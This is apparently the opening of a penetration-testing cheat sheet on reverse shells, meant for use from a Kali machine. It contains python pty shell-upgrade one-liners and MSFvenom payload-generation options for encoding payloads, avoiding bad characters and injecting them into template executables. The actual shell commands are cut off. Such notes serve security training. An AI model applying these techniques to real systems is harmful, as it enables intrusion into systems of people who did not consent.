 # Reverse Shells
In provided commands/code: replace ```[HOST]``` (host receiving the reverse shell connection: Kali VM IP address) and ```[PORT]``` (listening port on the host receiving the reverse shell connection) values accordingly

**IMPORTANT NOTE:** Continued use of a reverse shell on a compromised system is not always necessary! If the user running the shell can be used to login to the system remotely, this is preferred as it is more stable and more easily repeatable.

## Table of Contents
* [Upgrading limited reverse shells to interactive shells](#upgrading-limited-reverse-shells-usually-on-linux-targets-to-interactive-shells)
* [MSFvenom](#msfvenom)
* [Netcat](#netcat)
* [Ncat](#ncat)
* [sbd](#sbd)
* [*nix Native](#nix-native)
* [Python](#python)
* [Powershell](#powershell)
* [Java](#java)
* [PHP](#php)


## Upgrading limited reverse shells (usually on Linux targets) to interactive shells
```
python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/sh")'
```


## MSFvenom

### Options
```
-p [PAYLOAD]: Specify payload type to use
-b [BADCHARS]: Specify characters to avoid when generating payload
-f [FORMAT]: Specify output format
-s [NUM]: Set maximum size of raw generated payload to [NUM] bytes
--encoder-space [NUM]: Set maximum size of encoded generated payload to [NUM] bytes
-i [NUM]: Run encoded [NUM] iterations on generated payload
-x [EXECUTABLE_FILE]: use [EXECUTABLE_FILE] as a template for the generated executable payload
-k: preserve the behavior of the template file (passed in with -x) and inject generated payload as a new thread
-n [NUM]: prepend NOP-sled of [NUM] bytes
```


## Netcat

